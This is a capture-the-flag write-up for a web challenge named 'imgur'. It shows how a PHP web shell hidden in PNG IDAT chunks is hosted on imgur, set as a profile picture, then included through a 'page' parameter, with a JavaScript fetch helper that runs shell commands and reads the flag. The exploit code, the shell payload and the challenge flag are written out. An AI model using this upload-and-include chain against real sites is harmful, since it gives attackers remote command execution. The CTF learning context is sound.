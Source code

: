 # imgur (50pts, 49 solved) Web [Medium]

## First look
When we open the website, we need to create an account or login. After doing that, we can view our profile and modify our profile picture with a picture from imgur only.

## Solving
Since `imgur` removes all `exif` data, we need to actually inject it into the bytes (`IDAT` section). Luckily, someone else has already done that for us: `https://github.com/huntergregal/PNG-IDAT-Payload-Generator`, which had this article: `https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/`. Now we can upload the picture to `Imgur`: `https://i.imgur.com/FLbtxhg.png`.  
When we try to upload this to the application, it denies it (`invalid path, only a-z0-9A-Z are allowed`). After a bit of trial and error, we find that it only accepts `jpg` images. I tried to simply change the extension to `jpg` and we got lucky final url:
```
/index.php?page=profile&setpicture=https://i.imgur.com/FLbtxhg.jpg
```
And we can verify that it actually contains our code, by downloading it and opening it up in an editor.  
From our article, we saw this code: `<?=$_GET[0]($_POST[1]);?>`. So we need to post and use a query:
```js
function executeCommand(command) {
    return new Promise(async resolve => {
        let response = await fetch("/?0=shell_exec&page=profiles%2fFLbtxhg.jpg", {
            "referrerPolicy": "strict-origin-when-cross-origin",
            "body": "1=" + encodeURIComponent(command),
            headers: {
                'Content-Type': 'application/x-www-form-urlencoded'
                // 'Content-Type': 'application/x-www-form-urlencoded',
            },
            "method": "POST",
            "mode": "cors",
            "credentials": "include"
        });
        let text = await response.text();
        //console.log(text);
        resolve(text);
    });
}

(async function() {
    let response = await executeCommand("ls -la /");
    console.log(response);
    /*
    total 84
    drwxr-xr-x   1 root root 4096 Nov 20 14:11 .
    drwxr-xr-x   1 root root 4096 Nov 20 14:11 ..
    -rwxr-xr-x   1 root root    0 Nov 20 14:11 .dockerenv
    drwxr-xr-x   1 root root 4096 Feb  1  2020 bin
    drwxr-xr-x   2 root root 4096 Nov 10  2019 boot
    drwxr-xr-x   5 root root  360 Nov 20 14:11 dev
    drwxr-xr-x   1 root root 4096 Nov 20 14:11 etc
    -rw-r--r--   1 root root   70 Mar 21  2020 flag_3d05c1f377122d0af8a3426cd2c9a739
    drwxr-xr-x   1 root root 4096 Sep 21 09:07 home
    drwxr-xr-x   1 root root 4096 Feb  1  2020 lib
    drwxr-xr-x   2 root root 4096 Jan 30  2020 lib64
    drwxr-xr-x   2 root root 4096 Jan 30  2020 media
    drwxr-xr-x   2 root root 4096 Jan 30  2020 mnt
    drwxr-xr-x   2 root root 4096 Jan 30  2020 opt
    dr-xr-xr-x 193 root root    0 Nov 20 14:11 proc
    drwx------   1 root root 4096 Feb 21  2020 root
    drwxr-xr-x   1 root root 4096 Nov 20 14:11 run
    drwxr-xr-x   1 root root 4096 Feb  1  2020 sbin
    drwxr-xr-x   2 root root 4096 Jan 30  2020 srv
    dr-xr-xr-x  12 root root    0 Nov 20 18:12 sys
    drwxrwxrwt   1 root root 4096 Nov 20 16:55 tmp
    drwxr-xr-x   1 root root 4096 Jan 30  2020 usr
    drwxr-xr-x   1 root root 4096 Feb  1  2020 var
    */
    response = await executeCommand("cat /flag_3d05c1f377122d0af8a3426cd2c9a739");
    console.log(response);
    /*
    DCTF{00520d68be7231d130b6acd3fe721098e93fa074b05b94841f90eed41168643d}
    */
})();
```
Which gets us the flag: `DCTF{00520d68be7231d130b6acd3fe721098e93fa074b05b94841f90eed41168643d}`